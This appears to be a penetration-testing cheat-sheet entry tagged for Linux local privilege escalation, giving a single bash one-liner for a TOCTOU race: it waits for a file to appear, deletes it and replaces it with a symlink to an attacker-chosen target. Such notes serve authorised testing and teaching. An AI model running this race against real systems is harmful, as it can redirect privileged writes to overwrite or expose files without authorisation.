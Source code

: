 # race condition

% toctou, race condition
#platform/linux #target/local #cat/PRIVESC 

## change a file by a symlink when found
```bash
while true ; do N=<file_to_search> ; if [[ -r $N ]] ; then rm $N ; ln -s <symlink_target_file> $N ; break; fi ; done
```
